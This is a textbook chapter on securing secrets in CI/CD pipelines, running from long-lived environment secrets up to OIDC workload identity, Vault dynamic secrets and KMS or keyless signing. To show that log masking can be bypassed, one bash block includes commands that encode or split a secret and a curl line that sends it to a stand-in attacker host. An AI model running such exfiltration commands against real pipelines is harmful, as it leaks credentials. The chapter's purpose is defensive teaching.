





# Chapter 6 — Secrets Management in CI/CD

*What this chapter covers.* A CI/CD pipeline is a machine that turns source into production,
and to do that it must hold credentials to nearly everything: read tokens for private
dependencies, push credentials for artifact registries, signing keys, and — at the far end —
the cloud identity that deploys to production. Chapter 4 argued that the platform is the join
point of source and production and therefore a single point of compromise. This chapter is
about the *fuel* stored at that join point. Secrets in CI/CD are simultaneously the most
concentrated and the most exposed credentials in most organizations: concentrated because the
pipeline needs the keys to everything, exposed because the pipeline runs attacker-adjacent
code (Chapter 4) on every commit, echoes text into logs, packages artifacts, and hands
environment variables to any dependency's install script. The Codecov breach (Book 1,
Chapter 5) and the CircleCI breach (Chapter 4) are both, at bottom, secrets-in-CI incidents.

Rather than a catalog of secret stores, this chapter is structured as a **maturity ladder**.
We start with long-lived secrets sitting in environment variables — the baseline almost
everyone begins with — and climb rung by rung to the destination: no stored secrets at all,
just short-lived credentials minted on demand against a cryptographically proven workload
identity. Each rung shrinks the blast radius and the window of exposure. The argument of the
chapter is that most of the value comes from getting off the bottom rung, and that the top
rung — OIDC federation and workload identity — is now a paved-road capability you should
standardize on across a fleet.

Learning goals — after this chapter you should be able to:

- Explain **why CI/CD concentrates secrets** and enumerate the leak surfaces (env vars, logs,
  forked PRs, artifacts, caches, error messages, child processes, and provider breach).
- Articulate the **four-rung maturity ladder** — long-lived env secrets → scoped/masked →
  short-lived/dynamic → workload identity — and reason about the blast radius each rung
  implies.
- Describe how CI-native secret stores and external managers (Vault, cloud secret managers)
  actually work, and explain precisely why **log masking is not a security control**.
- Explain the **"secret zero" bootstrapping problem** and how OIDC/workload identity resolves
  it — the trust chain from a signed job token to short-lived cloud credentials.
- Design handling for **signing keys** specifically: KMS/HSM-backed keys and Sigstore keyless
  signing, and argue why stored signing keys are unacceptable.
- Build a detection-and-response posture: secret scanning, push protection, log/artifact
  scanning, short TTLs, and an assume-breach rotation plan.

## Why CI/CD is the secrets danger zone

Two facts, in tension, make CI/CD the worst place in an engineering organization to store a
credential — and the place where the most credentials inevitably end up.

**The concentration.** A pipeline exists to move code from a developer's laptop to production
artifacts running in a cluster. Every step of that journey needs authority. Fetching private
dependencies needs a read token for the package registry or Git host. Building may need
credentials for a remote cache or a proprietary base image. Pushing the built image needs
write credentials to the container registry. Signing needs a signing key. Generating and
storing provenance (Chapter 3) needs a token for the attestation store. And deploying needs a
cloud identity — often one that can mutate production. No other system in the org sits on this
particular union of privileges. The database has data; the registry has artifacts; the cloud
account has infrastructure. CI/CD has *the keys to all of them at once*, because its job is to
be the conveyor belt that touches each in turn.

This is the SolarWinds and Codecov lesson restated as an inventory problem. Compromise the
conveyor belt and you do not get one credential — you get the whole drawer. Codecov's Bash
Uploader compromise (Book 1, Chapter 5) is the textbook case: the attacker modified a script
that ran inside thousands of customers' CI jobs, and that script exfiltrated the *environment*
of the job. Because CI environments are where teams stash their AWS keys, their registry
tokens, and their deploy credentials, a single tampered uploader became a mass credential-theft
operation. The customers' remediation instruction was blunt and total: rotate every credential
that was ever exposed to CI. That is the shape of a concentration failure — the blast radius is
"everything the pipeline could touch."

**The exposure.** The same pipeline that concentrates secrets also runs the most hostile code
in the org on every push. Chapter 4 made this point about pipeline definitions; it is equally
true of everything the pipeline invokes. A `postinstall` script from a transitive npm
dependency (Book 2, Chapter 4), a Makefile target, a test helper, a linter plugin — all execute
with the job's authority and can read the job's secrets. The pipeline's design goal is to run
untrusted-adjacent input, and its runtime environment is stuffed with credentials. Those two
properties should never coexist, and in a naive CI setup they always do.

The exposure is not one surface but many. It is worth enumerating them, because a mitigation
that closes one leaves the others open.



- **Environment variables** are the default injection mechanism and the worst one. An env var
  is process-global: every step in the job, every subprocess, and every dependency's lifecycle
  script can read it with `printenv` or the language's environment API. Codecov exfiltrated env
  vars specifically because that is where the secrets are and reading them requires no
  privilege. Malicious packages (Book 2, Chapter 4) routinely enumerate the environment for
  `AWS_`, `NPM_TOKEN`, `GITHUB_TOKEN`, and similar patterns.
- **Build logs** leak secrets constantly. A `set -x` in a shell script, a `curl -v` that prints
  an `Authorization` header, a framework that logs its config on startup, a debug build with a
  verbose flag — any of these can write a live credential into a log that is retained,
  searchable, and (for public projects) world-readable. The `tj-actions/changed-files`
  compromise (Chapter 4, March 2025) worked by dumping secrets into public build logs.
- **Forked-PR execution** is the elevated-context footgun developed in Chapter 5: a workflow
  that runs untrusted fork code in a context that has secrets. GitHub's `pull_request` vs
  `pull_request_target` distinction exists precisely because this is easy to get wrong.
- **Artifacts** can carry secrets out. A `.env` file copied into a Docker image, a config with
  an embedded token baked into a release tarball, a `kubeconfig` left in the build directory and
  swept into an artifact upload — the secret ships to wherever the artifact goes, which for a
  published image is "the public internet."
- **Caches** persist state between runs and can persist a secret with it. A dependency cache
  that captured a credentialed `.netrc`, a build cache layer containing a token — caches are
  often less access-controlled than the job and may be shared across branches.
- **Error messages and stack traces** dump context on failure, and context often includes the
  credentialed URL or the config object that held the secret. Failure paths are less tested than
  success paths, which is exactly when a secret escapes.
- **Child processes** inherit the environment. This is the mechanism behind dependency-based
  exfiltration: you did not print the secret, but the install script of a package three levels
  down did.
- **The provider itself** can be breached. CircleCI (January 2023, Chapter 4) is the reference
  case: a stolen employee session token led to exfiltration of customer secrets stored in the
  SaaS. If your security model assumes the CI provider's secret store is inviolable, a provider
  breach is a total loss — and the only defense is to not store long-lived secrets there in the
  first place.

The lesson threaded through every one of these surfaces is the same: **the safest secret is the
one that does not exist at rest and expires in minutes.** That is the destination the maturity
ladder climbs toward.

## The maturity ladder

Frame everything that follows as four rungs. Each rung is a strict improvement in blast radius
and exposure window over the one below it. You do not need to reach the top for every credential
on day one, but you should know which rung each secret is on and be climbing.



| Rung | What it is | Exposure window | Blast radius of a leak |
| --- | --- | --- | --- |
| 1. Long-lived in env | A static token/key stored in CI secrets, injected into env | Until manual rotation (often years) | Full standing privilege of the credential |
| 2. Scoped + masked | Same, but least-privilege, scoped to repo/env, masked in logs | Until manual rotation | Limited to the scoped privilege |
| 3. Short-lived / dynamic | Ephemeral creds minted on demand, auto-expire (Vault, STS) | Minutes to hours | Scoped privilege for the TTL only |
| 4. Workload identity | No stored secret; job proves identity, gets short-lived creds | Minutes; nothing stored at rest | Scoped privilege for the TTL; nothing to steal at rest |

The single most valuable move is getting off rung 1. A long-lived secret in an environment
variable is exposed to every surface enumerated above and, once leaked, is useful to an attacker
indefinitely. Rung 2 is table stakes and cheap. Rung 3 collapses the exposure window from years
to minutes. Rung 4 removes the stored root entirely, so a provider breach or a leaked disk image
yields nothing usable. We now walk each rung.

## Rung 1–2: long-lived secrets and how to manage them less badly

Some credentials are genuinely long-lived by nature (a third-party API key you cannot mint
dynamically), and every organization has legacy secrets not yet migrated. So even though the
goal is to leave rung 1, you must know how to hold a long-lived secret as safely as possible.

### CI-native secret stores

Every CI platform provides a secret store: GitHub Actions *secrets* (repository, environment,
and organization scopes), GitLab CI/CD *variables* (with *protected* and *masked* flags), Jenkins
*credentials*, and so on. These provide two real properties and one property that is routinely
misunderstood.

The two real properties are **encryption at rest** and **scoping**. GitHub encrypts secrets and
exposes them only to workflows in the appropriate scope; environment-scoped secrets can be gated
behind required reviewers and branch restrictions, so a `production` secret is only injectable by
a job targeting the protected `production` environment. GitLab's *protected* variables are bound
to protected branches and tags — a job running on an unprotected feature branch (which any
contributor can push) simply does not receive them. Use these scopes aggressively: a deploy
credential should live in a `production` environment scope, not a repository-wide secret readable
by every CI run including a first-time contributor's PR.

The misunderstood property is **masking**. GitHub and GitLab both attempt to redact secret values
from logs, replacing them with `***`. This is genuinely useful — it catches the accidental
`echo $TOKEN` — but it is **best-effort string replacement, not a security boundary**, and you
must not treat it as one. Masking scans log output for the literal secret string and substitutes
a placeholder. Every technique from the obfuscation discussion in Book 2, Chapter 4 defeats it:

```bash
# All of these exfiltrate a "masked" secret past the log scrubber.

# 1. Base64-encode: the literal string never appears in the log.
echo "$SECRET" | base64

# 2. Split it: neither half matches the masked string.
echo "${SECRET:0:10}"; echo "${SECRET:10}"

# 3. Reverse it.
echo "$SECRET" | rev

# 4. Send it somewhere the log scrubber never sees.
curl -s "https://attacker.example/collect?d=$(echo "$SECRET" | base64)"
```

The masker sees `dG9rZW4tdmFsdWU=`, not the secret, and passes it through. GitLab's own
documentation notes masking's limitations and requires masked variables to meet length and
character constraints precisely because the scrubber is fragile. The correct mental model:
masking reduces *accidental* disclosure by careless logging; it does zero work against an
attacker who controls a build step, which — per Chapter 4 — is the threat that matters. Never
reason "it's fine, the secret is masked."

Two rules that admit no exceptions at this rung:

1. **Never put a secret in the repository or the pipeline definition.** Not in `.github/workflows/*.yml`,
   not in `.gitlab-ci.yml`, not in a committed `.env`, not base64-"hidden" in a config. It will be
   in Git history forever, replicated to every clone and fork, and indexed by secret scanners the
   moment it is public. This is what push protection and secret scanning (below, and Book 7,
   Chapter 4) exist to prevent.
2. **Scope to least privilege.** A build credential should not be able to deploy; a deploy
   credential should not be able to read every other repo. Separate them (see the checklist).

### External secret managers

The next step beyond the CI-native store is a dedicated secret manager: HashiCorp Vault, AWS
Secrets Manager, GCP Secret Manager, or Azure Key Vault. These centralize secrets outside the CI
provider, which matters for three reasons: they offer far richer access control and audit than a
CI secret store, they let many systems (not just CI) share one source of truth, and — critically
— storing the secret outside the CI SaaS means a CircleCI-style provider breach does not directly
expose it.

There are two integration patterns, and the distinction matters:

- **Pull at runtime.** The job authenticates to the manager and fetches the secret into memory
  for the duration of the step. The secret never lives in the CI secret store; it exists in the
  job only transiently. This is strictly better than injecting because the secret's home is the
  manager, with the manager's audit log and revocation.
- **Inject.** A prior system reads from the manager and writes the value into the CI secret store
  as a normal env var. This is a migration convenience, not a destination — you have merely moved
  the copy, and it now lives in two places with the CI copy exposed to all the usual surfaces.

Prefer pull-at-runtime. But pulling raises the question the rest of the chapter answers: **how
does the CI job authenticate to the secret manager in the first place?** If the answer is "a
static Vault token stored as a CI secret," you have not eliminated a long-lived secret — you have
created a master one, a single credential that unlocks all the others. This is the *secret zero*
problem, and it is the hinge of the whole chapter.

## Rung 3: short-lived and dynamic secrets

The core idea of rung 3 is to make the exposure window small enough that a leaked secret is
useless by the time an attacker uses it. Two mechanisms.

**Short-TTL tokens.** Instead of a static credential, issue one that expires in minutes. Cloud
STS tokens, Vault tokens with a short `ttl`, GitHub App installation tokens (one hour) — all
follow this pattern. A leaked token still hurts, but only for the TTL, and a leak discovered
after expiry is a non-event.

**Vault dynamic secrets.** This is the more powerful mechanism and the reason Vault is worth the
operational cost for many teams. A *dynamic secret* is not stored anywhere; it is *generated on
demand* and *destroyed on expiry*. With Vault's database secrets engine, a job asks Vault for
database credentials; Vault connects to the database with its own admin credential, runs a
`CREATE ROLE ... VALID UNTIL` statement, and hands the job a freshly minted username and password
with a lease. When the lease expires (or the job ends and revokes it), Vault issues a `DROP ROLE`.
The same pattern exists for cloud credentials (Vault's AWS/GCP/Azure secrets engines mint
short-lived IAM/STS credentials), for PKI (issue a certificate with a short validity), and more.

```bash
# The job asks Vault for ephemeral, read-only Postgres creds with a 15-minute lease.
$ vault read database/creds/reporting-ro
Key                Value
---                -----
lease_id           database/creds/reporting-ro/8x...
lease_duration     15m
lease_renewable    true
password           A1a-9f2c8b7e6d5...
username           v-token-reporting-9c3f1a2b
```

The security properties are strong. There is no shared standing credential to steal — the
username above never existed before this request and will not exist in twenty minutes. Every
issuance is a distinct, attributable identity in Vault's audit log, so a leak is traceable to the
job that requested it. And the blast radius of a leak is bounded by both the lease TTL and the
narrow policy attached to that credential (read-only, one database).

Dynamic secrets do not eliminate the bootstrapping question — they sharpen it. To ask Vault for
anything, the job must first prove to Vault *who it is*. If that proof is a static Vault token in
a CI secret, secret zero is back. The resolution is workload identity.

## The secret zero problem and its resolution

State the problem cleanly. Every scheme so far bottoms out in a credential the CI job uses to
authenticate to the thing that holds the real secrets. Call it *secret zero* — the first secret,
the one that bootstraps access to all the others. If secret zero is a long-lived token stored in
the CI provider, then everything above it inherits the weaknesses of rung 1: it is exposed to all
the leak surfaces, it is useful indefinitely if stolen, and it is exactly what a provider breach
hands the attacker. Wrapping a thousand dynamic secrets behind one static bootstrap token means
your real attack surface is that one token.



The resolution is to replace the *stored bearer secret* with a *proof of identity that is minted
fresh for each run and verified cryptographically*. The CI platform signs a token asserting "I am
a job from repo X, branch Y, environment Z," and the resource verifies that assertion against a
trust policy. Nothing is stored at rest; there is no bootstrap token to leak. This is workload
identity, and it is rung 4.

## Rung 4: workload identity — eliminating stored secrets

Workload identity inverts the model. Instead of the job *holding* a credential that proves it is
authorized, the job *proves who it is* and the resource *decides* whether that identity is
authorized, issuing a short-lived credential on the spot. The near-universal transport for this
in CI/CD today is **OIDC federation**.

### The OIDC federation flow

The CI platform runs an OIDC identity provider. When a job requests it, the platform mints a
signed JSON Web Token (a JWT) whose claims describe the job: the issuer (e.g.,
`https://token.actions.githubusercontent.com`), the `sub` (subject) claim encoding the repository
and the ref/environment, the `aud` (audience), and platform-specific claims like `repository`,
`ref`, `workflow`, and `environment`. The token is short-lived and specific to that job run. The
cloud provider or secret manager is configured with a **trust policy** (AWS calls the underlying
object an OIDC identity provider plus an IAM role's trust relationship; GCP calls it a Workload
Identity Federation pool) that says: "I trust tokens from this issuer, and if the claims match
these conditions, I will exchange the token for a short-lived credential to this role."



The trust chain has three verifiable links. First, the cloud verifies the **JWT signature**
against the CI provider's published JWKS (JSON Web Key Set) at a well-known URL — this proves the
token was minted by the genuine CI OIDC provider and not forged. Second, it checks the **audience**
to ensure the token was minted for it and not replayed from another relying party. Third, it
evaluates the **subject and custom claims** against the trust policy conditions. Only if all three
pass does STS mint the short-lived credential.

Why this is categorically better than any stored-secret scheme:

- **Nothing exists at rest to steal.** There is no long-lived credential in the CI secret store,
  no key on a disk, no bootstrap token. A provider breach that dumps the CI secret store finds
  nothing usable, because the usable thing is a signature minted per-run and expired within the
  hour.
- **Credentials are short-lived by construction.** The STS credential is scoped to the role and
  expires; a leak is bounded to the TTL.
- **Identity is cryptographically proven, not asserted by possession.** Possession of a bearer
  token proves nothing about *who you are*; an OIDC token's claims are signed and specific.
- **The trust decision lives with the resource owner, not the CI config.** The cloud account
  owner writes the trust policy, so authority is granted centrally rather than by whoever can
  write a CI secret.

GitHub Actions' OIDC specifics — requesting the token, the `id-token: write` permission, the exact
claim format, and the `sub` templating footguns — are developed in Chapter 5. Here the point is
the *pattern*, which is identical on GitLab (ID tokens), and which underpins federation to AWS,
GCP, Azure, and Vault's JWT/OIDC auth method alike.

### SPIFFE/SPIRE: workload identity as a first-class primitive

OIDC federation is workload identity specialized to "CI job authenticating to a cloud." The
generalized version is **SPIFFE** (Secure Production Identity Framework For Everyone) and its
reference implementation **SPIRE**. SPIFFE defines a *SPIFFE ID* — a URI like
`spiffe://example.org/ci/builder` naming a workload — and the *SVID* (SPIFFE Verifiable Identity
Document), an X.509 certificate or JWT that cryptographically binds a workload to its ID. SPIRE is
the issuing infrastructure: a server plus per-node agents that *attest* a workload (by node
properties, Kubernetes service account, process attributes) and issue it a short-lived SVID with
no secret provisioned in advance. The workload's identity is derived from *what it is*, not from a
key it was handed.

For a build fleet, SPIFFE/SPIRE lets you give every builder, every runner, and every service a
uniform, short-lived, verifiable identity that downstream systems (secret managers, service
meshes, other services) can authenticate — the same identity fabric whether the caller is a CI
job or a production microservice. This is the foundation the distributed-systems lens builds on,
and it is developed in Book 5, Chapter 4 (workload identity) and Book 9. For this chapter, treat
SPIFFE/SPIRE as the generalization of the OIDC-to-cloud pattern into an org-wide identity plane.

### The over-broad-trust footgun

Workload identity removes the stored secret but introduces a new failure mode: a **trust policy
scoped too loosely**. If the AWS role's trust relationship trusts *any* token from your GitHub
org — `repo:my-org/*` — then any repository in the org, including one a compromised contributor
can push a workflow to, can assume that role. The stored secret is gone but you have replaced it
with a standing grant to a broad population of pipelines.

Scope the trust policy to the narrowest set of claims that still works. Pin the repository, and
where possible the ref and the environment:

```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub":
        "repo:my-org/payments-service:environment:production"
    }
  }
}
```

The classic mistake is using `StringLike` with a wildcard on `sub` (e.g.
`repo:my-org/payments-service:*`), which trusts every branch and every pull request in that repo —
including a fork's PR run if the workflow is misconfigured (Chapter 5). Bind to
`environment:production`, gate that environment behind required reviewers, and the credential is
reachable only by a deliberately approved deploy. The rule: **a workload identity is only as good
as the trust policy that scopes it; an over-broad policy is a stored secret with extra steps.**

## Signing keys are a special case

Every credential type matters, but signing keys are the crown jewels and deserve their own
treatment. A registry token, if stolen, lets an attacker push to your registry — bad, but
detectable and revocable. A *signing key*, if stolen, lets an attacker **sign malware as you**:
produce artifacts that your registry, your admission controller, your customers' verification
policies, and your update clients all accept as authentically yours. The 3CX and SolarWinds
lineage (Book 1) shows what a validly signed malicious build buys an attacker — trust laundering
at scale. A stolen signing key defeats the entire signing apparatus that the rest of this suite
builds up. So the bar is higher: signing keys must **never** sit in a CI environment variable or
secret store as raw key material.

There are two good options, both of which mean the key material never lives in the pipeline.

**KMS/HSM-backed keys.** The private key is generated in and never leaves a hardware security
module or a cloud KMS (AWS KMS, GCP Cloud KMS, Azure Key Vault HSM). Signing is an *API call*: the
job sends a digest to the KMS, which computes the signature inside the boundary and returns it. The
job holds an *authorization to invoke the signing operation*, not the key itself. Tools support this
directly — for example, `cosign` (Book 5) can sign against a KMS key reference:

```bash
# The private key stays in KMS; cosign sends a digest and gets back a signature.
cosign sign --key awskms:///alias/release-signing \
  ghcr.io/my-org/payments@sha256:9f2c...
```

Now a compromised job can *request signatures while it runs* — which is a real problem you must
constrain with tight KMS IAM policies, short-lived authorization, and audit — but it can never
*exfiltrate the key*. There is no key to exfiltrate. Rotation, revocation, and access logging all
live in the KMS. Bind the KMS invoke permission to the workload identity of the specific
release job (rung 4), not to a stored credential, and gate it on the protected environment.

**Keyless signing (Sigstore/Fulcio).** The stronger option removes the long-lived signing key
entirely. In Sigstore's keyless flow, the job generates an *ephemeral* key pair in memory,
authenticates via OIDC (the same workload-identity token as above), and presents its OIDC identity
to **Fulcio**, Sigstore's certificate authority. Fulcio issues a **short-lived X.509 certificate**
(valid for minutes) binding the ephemeral public key to the OIDC identity (e.g., the GitHub
Actions workflow identity). The job signs with the ephemeral private key, records the signature
and certificate in **Rekor**, Sigstore's transparency log, and then *discards the ephemeral key*.
There is nothing to store and nothing to steal: minutes after signing, the private key no longer
exists anywhere.

```bash
# Keyless: ephemeral key + OIDC identity + Fulcio cert + Rekor log. No stored key.
cosign sign ghcr.io/my-org/payments@sha256:9f2c...
#   → opens OIDC flow / uses the ambient CI OIDC token
#   → Fulcio issues a short-lived cert bound to the workflow identity
#   → signature + cert recorded in Rekor transparency log
```

Verification then checks the certificate's identity claims against your policy ("signed by the
`release.yml` workflow in `my-org/payments` on the `main` branch") and the Rekor inclusion proof,
rather than checking against a pinned public key you must manage and rotate. Sigstore's
architecture — Fulcio, Rekor, the transparency-log trust model, and its relationship to TUF and
the update problem — is developed in Book 5, Chapters 3 and 4. The argument for this chapter is
simple: **prefer keyless or KMS/HSM signing over any stored signing key.** A stored signing key in
CI is the single worst secret you can hold, because its compromise is both catastrophic and, with
these alternatives available, entirely avoidable.

| Signing approach | Where the key lives | Blast radius if CI is compromised |
| --- | --- | --- |
| Raw key in CI secret / env | In the pipeline | Total: key exfiltrated, attacker signs as you indefinitely |
| KMS/HSM-backed | In the HSM/KMS, never in CI | Bounded: attacker can request signatures only while the job runs and IAM allows; key never leaves |
| Keyless (Sigstore) | Ephemeral, discarded after minutes | Minimal: no key at rest; identity-bound, transparency-logged, short-lived cert |

## Recommended handling by secret type

Different secrets sit naturally on different rungs. Use this as a default map, not a straitjacket.

| Secret type | Example | Recommended handling |
| --- | --- | --- |
| Cloud deploy credential | AWS/GCP/Azure access to prod | Rung 4: OIDC federation to a tightly scoped role, gated on a protected environment. Never a stored static key. |
| Artifact registry push | GHCR/ECR/Artifactory write | Rung 3–4: OIDC or short-lived registry token scoped to the specific repo/path; separate from read creds. |
| Private dependency read | npm/PyPI/Git read token | Rung 2–3: least-privilege read-only token, short TTL where the registry supports it; scope to the org. |
| Database credential | App or migration DB access | Rung 3: Vault dynamic secret with a short lease; never a shared standing DB password in CI. |
| Signing key | Release artifact signing | KMS/HSM-backed or Sigstore keyless. Never raw key material in CI. |
| Third-party API key | Payment/SaaS API | Rung 2 if it cannot be dynamic: external secret manager, pulled at runtime, scoped, rotated, audited. |

Two structural rules cut across the table. **Separate build credentials from deploy
credentials** — the job that compiles and tests should not hold the identity that mutates
production; split them so a compromise of the noisy, dependency-heavy build stage does not yield
the deploy keys. And **least-privilege per job** — a job gets exactly the credentials its step
needs and no more, for as short a time as possible.

## Leak surfaces and their mitigations

Pulling the exposure analysis together against the mitigations the ladder provides:

| Leak surface | Mitigation |
| --- | --- |
| Env vars readable by every step/child | Don't inject unless needed; pull at runtime into a single step; prefer short-lived creds so a dump is stale fast |
| Build logs (echo, verbose, error) | Never rely on masking as security; disable command echo around secrets; scan logs for leaks; short TTL limits the damage |
| Forked-PR execution | Don't expose secrets to untrusted-fork contexts (Chapter 5); gate secrets behind protected environments |
| Artifacts carrying secrets | Scan artifacts/images pre-publish; build with no secret in the context (BuildKit secret mounts, not `ARG`); least-privilege |
| Caches persisting secrets | Never write credentials into cached paths; scope caches per branch; treat cache as untrusted (Chapter 7) |
| Error messages / stack traces | Avoid credentials in URLs; scrub failure output; short TTL |
| Child processes (malicious deps) | Minimize secrets present during dependency install; run install in a stage with no deploy creds; pin/vet deps (Book 2) |
| Provider breach | Don't store long-lived secrets in the CI SaaS at all — rung 4 makes a provider breach yield nothing usable |

Note the pattern: every row's *best* mitigation is "be higher on the ladder." A short-lived
credential leaked into a log is a smaller incident than a static one; a workload-identity setup
has nothing for a provider breach to steal. Detection and hygiene reduce the frequency of leaks;
the ladder reduces their consequence.

## Detection and response

Prevention is never complete, so pair the ladder with detection and a rehearsed response.

**Secret scanning and push protection.** Scan repositories for committed secrets and scan
build logs and artifacts for leaked ones. Source-side scanning (GitHub secret scanning, GitLab
secret detection, `gitleaks`, `trufflehog`) is developed in Book 7, Chapter 4; the CI-relevant
addition is **push protection** — reject the push that would commit a recognized secret pattern
*before* it lands in history, rather than detecting it after it is already replicated to every
clone. Extend scanning to the pipeline's own outputs: grep build logs for high-entropy strings
and known credential formats, and scan built images/artifacts for embedded secrets before publish.
Detection at the artifact stage catches the `.env`-in-the-image class of leak that source scanning
never sees.

**Rotation and TTLs.** The cheapest rotation is the one that happens automatically. A rung-3 or
rung-4 credential rotates by expiring — a fifteen-minute lease is "rotated" four times an hour
with no human in the loop. This is the deepest reason to climb the ladder: **short TTLs turn
rotation from a dreaded manual project into a property of the system.** For the long-lived secrets
you cannot yet eliminate, adopt an *assume-leak* posture — rotate on a schedule regardless of any
known incident, because you will not always know when a secret has leaked (Codecov customers
learned of their exposure months after the fact).

**Incident response for a leaked CI secret.** When a CI secret is known or suspected leaked, the
response is governed by the concentration property: you must rotate *everything the pipeline could
touch*, not just the one credential you noticed. This is the instruction Codecov and CircleCI both
gave their customers, and it is correct precisely because CI holds the whole drawer.



The blast-radius reasoning is the payoff of the whole chapter. On rung 1, the "inventory" step is
enormous and the "rotate everything" step is a multi-day cross-team scramble touching every system
the pipeline ever authenticated to — because the leaked credential was long-lived and broadly
scoped. On rung 4, the same detection is often a shrug: the leaked thing was a short-lived
credential that has already expired, scoped to one role, with nothing stored to rotate. **Climbing
the ladder is not only leak prevention; it is incident-response cost reduction.** Full
compromise-recovery for the signing case — re-signing, revocation, and rebuilding trust — is
developed in Book 8, Chapter 6.

## Distributed-systems lens

Everything above is stated for one pipeline. The picture changes at fleet scale — many teams,
many repos, hundreds of pipelines — and the changes all point the same way: **eliminate stored
long-lived secrets org-wide, because a single one is a fleet-wide liability.**

Consider the asymmetry. If one team out of two hundred keeps a long-lived AWS key in a CI secret,
that one credential is lateral-movement fuel for an attacker who compromises *any* pipeline that
can read it, or who breaches the CI provider. The org's exposure is set by its *weakest* pipeline,
not its average one. A fleet where 199 teams do rung 4 perfectly and one team keeps a static
deploy key has not meaningfully reduced its worst-case blast radius. This is why secrets in CI is a
*platform* problem, not a per-team problem, and why the mitigation must be a paved-road capability
(Chapter 10) rather than guidance every team is trusted to follow.

The paved road for secrets is: **standardize on workload identity (OIDC/SPIFFE) so that no team
ever needs to store a long-lived secret.** Concretely:

- **A central secret manager with per-workload-identity policies.** One Vault (or cloud secret
  manager) fleet-wide, where access is granted to *identities* — `spiffe://corp/ci/payments/release`
  — not to bearer tokens. The CI-identity-to-cloud-identity mapping becomes your fleet IAM: the
  authoritative statement of which pipeline may assume which role. This is auditable in one place,
  which a scatter of per-repo CI secrets never is.
- **Trust policies as reviewed, version-controlled config.** The over-broad-trust footgun scales
  badly: one `repo:my-org/*` trust policy is a fleet-wide backdoor. Manage trust policies as code,
  review them, and lint for wildcards on `sub`.
- **Centralized detection across all pipelines.** Scan every pipeline's logs and artifacts for
  leaked secrets from one place, and alert on the anti-patterns — a new static credential appearing
  in a CI secret store, a trust policy widening, a signing key referenced as raw material. The
  fleet's job is to make the *unsafe* thing visible and hard, and the safe thing the default.
- **Signing centralized on KMS/keyless.** No team should hold a raw signing key; the release path
  is a paved-road capability that signs via KMS or Sigstore keyless against the job's workload
  identity, so "steal a signing key" is not in any team's threat model because no team has one.

The high-leverage move, restated: eliminating stored long-lived secrets is one of the few security
investments whose value is *super-linear* in fleet size. Each pipeline you move to workload
identity removes not just its own exposure but its contribution to the org's lateral-movement
graph. The CircleCI and Codecov incidents were bad because so many customers had long-lived
secrets to steal; an org that had already climbed to rung 4 would have read those same breach
notifications and had almost nothing to rotate.

## Key takeaways

- **CI/CD concentrates secrets and exposes them.** The pipeline needs the keys to everything
  (registry, cloud, signing, deploy) and runs attacker-adjacent code on every push. That
  combination is why Codecov and CircleCI were mass credential-theft events.
- **Think in a maturity ladder.** Long-lived env secrets → scoped/masked → short-lived/dynamic →
  workload identity. Each rung shrinks blast radius and exposure window. The biggest single win is
  getting off rung 1.
- **Log masking is not security.** It is best-effort string replacement, trivially defeated by
  encoding or splitting the secret. It reduces accidental disclosure and nothing else. Never put a
  secret in the repo or pipeline definition at all.
